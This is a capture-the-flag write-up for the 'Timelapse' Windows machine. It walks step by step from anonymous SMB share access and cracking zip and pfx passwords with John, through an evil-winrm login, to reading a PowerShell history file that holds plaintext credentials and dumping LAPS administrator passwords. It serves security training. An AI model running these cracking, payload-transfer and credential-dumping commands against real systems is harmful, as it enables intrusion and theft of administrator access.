

# Timelapse

Timelapse is a CTF that lets you take a dive into windows and start getting your hands prepared for powershell. Enough research and you'll get a better understanding of pfx files, LAPS and understanding powershell logs.

## Enumeration

Start off with an nmap scan:

```
nmap -Pn -sC -sV -v <TARGET_IP>
```



Here, the SMB port is open, which means there could be some misconfiguration which can be exploited. 

```
smbclient -L 10.10.11.152      
Password for [WORKGROUP\lolboi]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Here, I have listed every SMB share available on the sevrer. Out of all these, only `Shares` has something of value (I checked so you don't have to). You can connect and view the items with `smbclient //<TARGET_IP>/Shares` and le tthe password be empty.

There are 2 directories revealed, `Dev` and `HelpDesk`.

```
smb: \> ls Dev/
  .                                   D        0  Mon Oct 25 23:40:06 2021
  ..                                  D        0  Mon Oct 25 23:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 19:46:42 2021

		6367231 blocks of size 4096. 2466336 blocks available
smb: \> ls HelpDesk/
  .                                   D        0  Mon Oct 25 19:48:42 2021
  ..                                  D        0  Mon Oct 25 19:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 18:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 18:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 18:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 18:57:44 2021

		6367231 blocks of size 4096. 2466336 blocks available
```

These lead to 2 interesting ideas,
1. Target machine has some form of WinRM that we can use to connect (using evil-winrm)
2. Target machine has LAPS on it (Local Administrator Password Solution - Password management for domain connected devices).

Tip: You can download the files in an SMB share with `get <FILENAME>`

## Exploit 

Lets try to unzip `winrm_backup.zip`. It is a password protected zip so we have to run the following command to crack the password and open it.

```
zip2john winrm_backup.zip > hash.txt | john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is revealed to be `supremelegacy`. On extraction, we get a file called `legacyy_dev_auth.pfx`. A pfx file contains the private key and the SSL certificate(public key) and is used to authenticate a user. They are also password-protected. Fortunately, John can crack pfx file passwords with the following command:

```
pfx2john legacyy_dev_auth.pfx > hash.txt 

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is revealed to be `thuglegacy`. Although, you can't just view the private and public keys, you will have to extract them from the pfx (Check out this blog: https://wiki.cac.washington.edu/display/infra/Extracting+Certificate+and+Private+Key+Files+from+a+.pfx+File )

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out pub.cert 
```

Open your preferred text editor and remove the excess text in both files.

Lastly, to get a foothold, we can use the following code to log into the machine:

```
evil-winrm -S -c pub.cert -k priv.key -i 10.10.11.152
```

Run `type ../Desktop/user.txt` to get the user flag.

## Priv-Esc

Download winPEAS from here: https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe

Use `python -m http.server <PORT>` to make a http server to transfer the winPEAS executable. You can use `Invoke-WebRequest -Uri http://<IP_ADDR>:<PORT>/winPEASx64.exe -OutFile <FILENAME>` to get the executable onto the target machine with the name of <FILENAME>. Run winPEAS with `./<FILENAME>`.

```
PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

winPEAS shows this Powershell history file, which we can use to see what commands have been run before on the target machine.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Here, we can see that the above block of code is used to execute code as the `svc_deploy` (You can log in as svc_deploy but we can do whatever we need using the `-scriptblock {}` parameter)

Run the following commands:

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /groups}
```

Here you can see that `svc_deploy` is a part of a group called `TIMELAPSE\LAPS_Readers`. Passwords can be exported from LAPS using the command `Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` (Read more information here: https://smarthomepursuits.com/export-laps-passwords-powershell/)

So, your complete command should look like this:

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

With this, you will get the Administrator account password. You can log into the Administrator account with the following command:

```
evil-winrm -S --user Administrator --password '<PASSWORD>' -i 10.10.11.152
```

You can get the root.txt with the command: `type C:\Users\TRX\Desktop\root.txt`
